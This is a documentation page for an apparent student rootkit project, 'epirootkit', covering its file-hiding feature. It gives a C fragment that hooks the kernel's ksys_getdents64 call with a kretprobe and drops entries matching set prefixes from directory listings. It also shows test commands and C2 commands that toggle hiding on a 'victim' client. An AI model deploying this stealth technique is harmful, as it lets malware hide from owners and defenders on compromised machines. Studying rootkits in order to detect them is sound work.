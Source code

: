 ```yaml
---
title: "File Hiding"
description: "Hide files and directories from directory listings using syscall interception"
icon: "folder_off"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```

{{< alert context="warning" text="It's Tuesday 17/06 21:26, two hours before deadline, and I'm realizing just now that even with file hiding enabled, the directory `/sys/module/epirootkit` is still visible in the victim's system. This occurs because we only hook getdents while `/sys/module/epirootkit` uses sysfs." />}}

## Implementation

```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
};

file_hiding_state.getdents_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_getdents64",
    .handler = getdents64_ret_handler,
    .entry_handler = getdents64_entry_handler,
    .data_size = sizeof(struct getdents_context),
    .maxactive = 20
};
```

Hooks `ksys_getdents64` syscall and filters directory entries matching hidden prefixes.

## Testing

```bash
# Create test files
touch /tmp/epirootkit_test.txt /tmp/normal_file.txt

# Without file hiding
ls /tmp/
# Output: epirootkit_test.txt  normal_file.txt

# With file hiding enabled
ls /tmp/
# Output: normal_file.txt
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
enable-file-hiding Client-1    # Enable hiding
disable-file-hiding Client-1   # Disable hiding
status Client-1                # Check state
```

Files remain accessible by full path - only directory listings are filtered. 